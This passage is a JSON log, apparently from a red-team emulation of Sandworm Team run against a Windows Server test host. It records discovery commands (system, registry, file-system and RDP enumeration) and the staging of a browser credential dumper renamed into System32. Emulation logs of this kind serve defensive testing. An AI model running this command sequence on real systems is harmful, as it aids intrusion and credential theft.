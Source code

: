 ```
promised host.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"discovery","technique_name":"System Owner/User Discovery","technique_id":"T1033"},"output":{"stdout":"windows-server\\administrator","stderr":"","exit_code":"0"},"agent_reported_time":"2024-11-12T08:07:23Z"},{"command":"reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v ProductName &reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v CurrentMajorVersionNumber &reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v CurrentMinorVersionNumber &reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v CurrentBuild","plaintext_command":"reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v ProductName &reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v CurrentMajorVersionNumber &reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v CurrentMinorVersionNumber &reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v CurrentBuild","delegated_timestamp":"2024-11-12T08:07:26Z","collected_timestamp":"2024-11-12T08:08:05Z","finished_timestamp":"2024-11-12T08:08:05Z","status":0,"platform":"windows","executor":"cmd","pid":2864,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"90cbd004-d5e9-4b05-9abe-12b93f77ede3","ability_name":"Sandworm Windows Discovery - Windows Version Info","ability_description":"Sandworm Team enumerates information about the infected system's operating system.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"discovery","technique_name":"System Information Discovery","technique_id":"T1082"},"output":{"stdout":"HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion    ProductName    REG_SZ    Windows Server 2022 Standard EvaluationHKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion    CurrentMajorVersionNumber    REG_DWORD    0xaHKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion    CurrentMinorVersionNumber    REG_DWORD    0x0HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion    CurrentBuild    REG_SZ    20348","stderr":"","exit_code":"0"},"agent_reported_time":"2024-11-12T08:08:05Z"},{"command":"dir /s /b C:\\ > dir.out","plaintext_command":"dir /s /b C:\\ > dir.out","delegated_timestamp":"2024-11-12T08:08:06Z","collected_timestamp":"2024-11-12T08:08:42Z","finished_timestamp":"2024-11-12T08:09:22Z","status":0,"platform":"windows","executor":"cmd","pid":5648,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"fa3ea4c1-c980-41b1-be78-c8c932d68e98","ability_name":"Sandworm Windows Discovery - List Entire File System","ability_description":"Sandworm Team has enumerated files on a compromised host.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"discovery","technique_name":"File and Directory Discovery","technique_id":"T1083"},"agent_reported_time":"2024-11-12T08:08:41Z"},{"command":"netstat -ano | findstr 3389","plaintext_command":"netstat -ano | findstr 3389","delegated_timestamp":"2024-11-12T08:09:26Z","collected_timestamp":"2024-11-12T08:09:32Z","finished_timestamp":"2024-11-12T08:09:32Z","status":1,"platform":"windows","executor":"cmd","pid":3760,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"73decaa1-5ba3-4739-812d-633929a158fd","ability_name":"Sandworm Windows Discovery - List RDP Connections","ability_description":"Sandworm Team had gathered user, IP address, and server data related to RDP sessions on a compromised host.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"discovery","technique_name":"System Network Connections Discovery","technique_id":"T1049"},"agent_reported_time":"2024-11-12T08:09:32Z"},{"command":"move .\\dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe","plaintext_command":"move .\\dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe","delegated_timestamp":"2024-11-12T08:09:37Z","collected_timestamp":"2024-11-12T08:10:34Z","finished_timestamp":"2024-11-12T08:10:34Z","status":1,"platform":"windows","executor":"cmd","pid":1200,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"9a438a2a-c95b-4fd2-a29f-8b1250fc3adc","ability_name":"Sandworm Download Web Credential Dumper","ability_description":"Sandworm downloads web credential du
```